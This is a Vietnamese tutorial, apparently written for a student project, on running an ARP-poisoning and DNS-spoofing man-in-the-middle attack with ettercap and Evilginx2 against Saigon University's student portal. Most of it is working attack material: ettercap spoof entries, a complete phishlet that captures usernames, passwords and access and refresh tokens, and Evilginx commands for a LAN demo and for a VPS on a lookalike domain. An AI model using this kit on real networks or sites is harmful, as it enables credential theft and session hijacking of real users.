 
## TẤN CÔNG ARP POISONING KẾT HỢP VỚI EVILGINX ĐỂ LÀM PROXY TẤN CÔNG MITM - CHUẨN BỊ

- 1 MÁY KALI LINUX: IP 192.168.100.200
- 1 MÁY VICTIM: IP 192.168.100.150
- Default Gateway MẶC ĐỊNH CỦA 2 MÁY: 192.168.100.2
- 1 HOST ĐỂ UPLOAD MÃ JAVASCRIPT ĐỘC HẠI CHÈN VÀO [TÙY VÀO MỤC ĐÍCH THỰC THI CÓ CẦN INJECT JAVASCRIPT VÀO TRANG FAKE, NẾU KHÔNG CẦN BỎ QUA] [TRONG DEMO NÀY, SẼ CHÈN VÀO CUỐI CHỮ "Demo được thực hiện nhằm mục đích làm đồ án"]
- 
## TRONG MÁY KALILINUX:

```
nano /etc/ettercap/etter.dns
```
Thêm vào cuối trang:
```
thongtindaotao.sgu.edu.vn A 192.168.100.200
thongtindaotao.sgu.edu.vn PTR 192.168.100.200
```
Save lại

Bật terminal khác
```
sudo apt update && sudo apt install
```
```
wget https://github.com/kgretzky/evilginx2/releases/download/v3.3.0/evilginx-v3.3.0-linux-64bit.zip
unzip evilginx-v3.3.0-linux-64bit.zip
```
```
cd phishlets
nano ttdt.yaml
```

```
min_ver: '3.0.0'

proxy_hosts:
  - {phish_sub: "", orig_sub: "", domain: "thongtindaotao.daihocsaigon.edu.vn", session: true, is_landing: true}

sub_filters:
  - {triggers_on: "thongtindaotao.daihocsaigon.edu.vn", orig_sub: "", domain: "thongtindaotao.daihocsaigon.edu.vn", search: "thongtindaotao.daihocsaigon.edu.vn", replace: "thongtindaotao.daihocsaigon.edu.vn", mimes: ["text/html", "application/javascript", "application/json"]}
  - {triggers_on: "thongtindaotao.daihocsaigon.edu.vn", orig_sub: "", domain: "thongtindaotao.daihocsaigon.edu.vn", search: "</body>", replace: "<p style="text-align: center;">Demo được thực hiện nhằm mục đích làm đồ án</p></body>", mimes: ["text/html", "application/javascript", "application/json"]}

auth_tokens:
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'access_token'
    search: '"access_token":"([^"]*)'
    type: 'body'
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'refresh_token'
    search: '"refresh_token":"([^"]*)'
    type: 'body'
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'userName'
    search: '"userName":"([^"]*)'
    type: 'body'
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'name'
    search: '"name":"([^"]*)'
    type: 'body'
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'expires'
    search: '".expires":"([^"]*)'
    type: 'body'
  - domain: thongtindaotao.daihocsaigon.edu.vn
    path: '/api/auth/login'
    name: 'issued'
    search: '".issued":"([^"]*)'
    type: 'body'

credentials:
  username:
    key: "username"
    search: '(.*)'
    type: 'post'
  password:
    key: "password"
    search: '(.*)'
    type: 'post'

login:
  domain: thongtindaotao.daihocsaigon.edu.vn
  path: /
```

## BẬT EVILGINX2 (Demo 1):

```
cd build
sudo ./evilginx -p ../phishlets -developer
phishlets hostname demo thongtindaotao.sgu.edu.vn
phishlets enable demo
lures create demo
lures edit 0 path / #ĐỂ VICTIM TRUY CẬP VÀO thongtindaotao.sgu.edu.vn LÀ VÀO THẲNG TRANG FAKE, KHÔNG CẦN DÙNG LURES
lures get-url 0 #NẾU TEST NHIỀU LẦN THÌ SỐ 0 NÀY SẼ LẤY TỪ CÂU LỆNH TRÊN
```

## BẬT EVILGINX2 TRÊN VPS (Demo 2):

```
sudo ./evilginx
phishlets hostname ttdt thongtindaotao.nodhsg.shop
phishlets enable ttdt
lures create ttdt
lures edit 0 path / #ĐỂ VICTIM TRUY CẬP VÀO thongtindaotao.nodhsg.shop LÀ VÀO THẲNG TRANG FAKE, KHÔNG CẦN DÙNG LURES
lures get-url 0 #NẾU TEST NHIỀU LẦN THÌ SỐ 0 NÀY SẼ LẤY TỪ CÂU LỆNH TRÊN
```

## BẬT ETTERCAP:
```ettercap -G```
QUY TRÌNH: SCAN HOST (THƯỜNG SẼ CHO RA KHOẢNG 4 HOST) --> ADD 192.168.100.150 VÀO TARGET 1 --> BẬT PLUGIN DNS SPOOF_DNS ĐỂ GỬI DNS QUERY CHO MÁY VICTIM 
KHI NÀY NGƯỜI DÙNG NẾU NHẬP thongtindaotao.sgu.edu.vn sẽ ra trang fake
